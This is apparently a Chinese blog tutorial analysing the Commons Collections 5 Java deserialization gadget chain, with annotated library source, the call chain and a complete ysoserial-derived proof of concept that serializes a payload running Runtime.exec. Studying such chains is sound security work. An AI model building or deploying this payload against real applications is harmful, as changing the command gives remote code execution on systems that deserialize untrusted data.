

## 环境准备

JDK1.8(8u421)我以本地的JDK8版本为准、commons-collections(3.x 4.x均可这里使用3.2版本)

cc3.2：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
```

## 正文

CC1攻击链：https://www.cnblogs.com/erosion2020/p/18553568

CC5是 CC1 的一个变种，CC1在JDK1.8之后对AnnotationInvocationHandler 进行了修复，使得攻击链不能被正常利用，在CC5提到的攻击链中使用了`TiedMapEntry`以及`BadAttributeValueExpException`来完成攻击链的触发。

让我们来看一下为什么通过这两个类可以完成攻击链的触发。

## TiedMapEntry

`TiedMapEntry` 是 `Commons Collections` 中的一个类，它主要用于将一个 `Map` 的键值对与其他对象绑定起来，形成一个 "绑定"（tied）关系。这个类的目的是允许 `Map` 条目（即键值对）与附加的对象（比如某些回调函数或特殊处理对象）一起存储。具体来说，`TiedMapEntry` 通过包装 `Map` 的条目，并与目标对象一起存储，来支持一些懒加载机制或触发特定的操作。

### CC5中的应用

在 **CC5（Commons Collections 5）** 的攻击链中，`TiedMapEntry` 起到了关键的“桥梁”作用。攻击者利用 `TiedMapEntry` 和 `LazyMap` 的结合来构建攻击链。

1. **`LazyMap` 的懒加载机制**：`LazyMap` 被用来延迟加载对象，攻击者通过将恶意代码与 `LazyMap` 绑定，延迟执行某些操作。`TiedMapEntry` 在这里负责将恶意的 `LazyMap` 对象和其他需要的对象绑定在一起。
2. **`TiedMapEntry` 和 `LazyMap` 配合**：攻击者可以将 `TiedMapEntry` 与 `LazyMap` 一起使用，通过访问 `LazyMap` 中的条目，来触发懒加载的恶意代码。这个过程通常是在反序列化时自动发生的。
3. **触发反序列化时的恶意操作**：当反序列化包含 `TiedMapEntry` 的对象时，访问 `TiedMapEntry` 的 `getValue()` 方法会触发与之绑定的恶意操作，最终可能执行恶意代码。

### 关键代码分析

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
	......
    public Object getKey() {
        return this.key;
    }
	// action1: 会执行到这个地方
    // 最终要把Map变成一个LazyMap，那这样的话就会触发LazyMap的get方法，而LazyMap中的get方法则会触发transformer方法
    public Object getValue() {
        return this.map.get(this.key);
    }
	// action0: 重点在这个方法中，他调用了getValue方法
    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}
```

## BadAttributeValueExpException

`BadAttributeValueExpException` 是 `javax.management` 包中的一个类，通常用于描述与 Java Management Extensions (JMX) 相关的异常。该类的构造方法接受一个 `Object` 类型的参数 `val`，代表异常的具体值。

在安全漏洞利用中，`BadAttributeValueExpException` 常被用作反序列化攻击链的一部分。由于其 `val` 字段是可访问的，攻击者可以通过将恶意对象（例如 `TiedMapEntry`）赋值给该字段，间接触发恶意代码的执行。

### CC5中的应用

在 **CC5** 攻击链中，`BadAttributeValueExpException` 是触发攻击链的关键对象之一。攻击者通过反序列化时将 `TiedMapEntry` 或其他恶意对象设置为 `val` 字段的值，使得反序列化过程中触发恶意的代码执行。

### **CC5 攻击链的具体应用：**

1. **构造 `BadAttributeValueExpException`**：首先构造一个 `BadAttributeValueExpException` 对象，并通过反射将恶意的 `TiedMapEntry` 对象设置到 `val` 字段中。
2. **触发反序列化**：在反序列化过程中，`BadAttributeValueExpException` 的 `val` 字段会被访问，而这个字段绑定了一个 `TiedMapEntry` 对象。此时，`TiedMapEntry` 的 `getValue()` 方法被调用，从而触发 `LazyMap` 的懒加载操作。
3. **执行恶意代码**：`LazyMap` 中的 `Transformer` 链会被触发，最终执行绑定的恶意操作（如执行命令、反向连接等）。

### 关键代码分析

```java
public class BadAttributeValueExpException extends Exception   {
    private static final long serialVersionUID = -3105272988410493376L;
	// 要把val构造成一个TiedMapEntry，这样在执行反序列化方法readObject时就会触发TiedMapEntry.toString方法
    // 然后TiedMapEntry.toString方法会执行TiedMapEntry.getValue方法，然后会执行到LazyMap.get(this.key)
    // LazyMap.get方法中会调用Transformer.transformer方法，而这里的Transformer就是我们精心构造的TransformerChained
    private Object val;
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            // 重点是这个方法
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

## 构造POC

一样，这里还是直接把ysoserial的代码转换成本地可以直接执行调试的代码

```java
public class CommonsCollections5 {
    static String serialFileName = "commons-collections5.ser";

    public static void main(String[] args) throws Exception {
        cc5byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc5byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(val);
        oos.flush();
        oos.close();
    }
}
```

## 调试

来弹个cmd



## 调用链

其实和CC1的调用链非常非常像，只是攻击链的触发点不一样

* ObjectInputStream.readObject()
  * BadAttributeValueExpException.readObject()
    * TiedMapEntry.toString()
      * TiedMapEntry.getValue()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Class.getMethod()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.getRuntime()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.exec()

